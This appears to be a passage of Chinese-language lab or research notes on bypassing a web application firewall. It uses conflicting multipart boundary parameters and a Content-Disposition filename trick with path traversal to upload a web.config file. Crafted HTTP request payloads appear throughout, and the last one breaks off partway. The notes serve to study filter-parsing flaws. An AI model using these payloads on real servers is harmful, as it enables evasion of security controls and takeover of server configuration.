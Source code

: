 5. Boundary 前後對調: 伺服器回應 500
```request
POST /echo.aspx HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; BOUNDARY=y;boundary=x;  
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="msg" 
Content-Type: text/plain 

1 
--x--
```
> 代表 WAF bypass，但 Server 也無法識別\

![image](https://hackmd.io/_uploads/ByHLfNpEyg.png)
> 以上測試 WAF 與 Server 識別 Content-Type 結果

#### Double Boundary 測試 Server 識別 Message Body
- x 包覆 y
![image](https://hackmd.io/_uploads/B1h0XEp41e.png)
![image](https://hackmd.io/_uploads/Sk8vrVaVyl.png)

> WAF 將 boundary y 誤認為 Content\
> 但 Server 能夠識別 boundary y
> 且接受 boundary 外有垃圾

>[!Caution]
> 為什麼 WAF 只吃 x 不吃 y ? 
> - 以上述測試表格顯示: WAF 只能識別 `第一個 boundary 參數` 且另一個  需要大寫 BOUNDARY y 才能 bypass block
> (因為是 content boundary `--x` 開頭，所以 WAF 只識別第一個參數 boundary x)
> 
> 為什麼 Server 只吃 y 不吃 x ?
> - 依照Content-Type Header 規範`不允許多個 boundary 同時存在`，當 boundary 被多次定義時，後端解析器通常會直接採用最後出現的值（boundary=y）

![image](https://hackmd.io/_uploads/Hkn3yraEke.png)

#### 定義完各自的世界觀，開始測試 payload
1. 使用前面 [Content-Disposition 的 trick](#繞過案例-三-Form-Header-Confusion-amp-Content-Type-Confusion---File-upload) (`filename="XX"; web.config` 黑名單丟到參數外，404 有過)，在 Content-Disposition 塞入 
> 1. `filename="1.txt";` 200 OK
> 2. `x=filename="1.txt";web.config` 200 OK
> 3. 結合: `x=filename="1;/../web.config"` 200 OK
![image](https://hackmd.io/_uploads/BkC3mraE1e.png)


>[!Note]
> WAF 世界觀: `x=filename="1;`~~/../web.config"~~
> Server 世界觀: ~~x=~~`filename="1;/../web.config"`

2. 上傳完整 web.config
```request
POST /upload.aspx HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; boundary=x; 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="file"; x=filename="1;/../web.config" 
Content-Type: text/plain 

<?xml version="1.0"?> 
<configuration> 
```
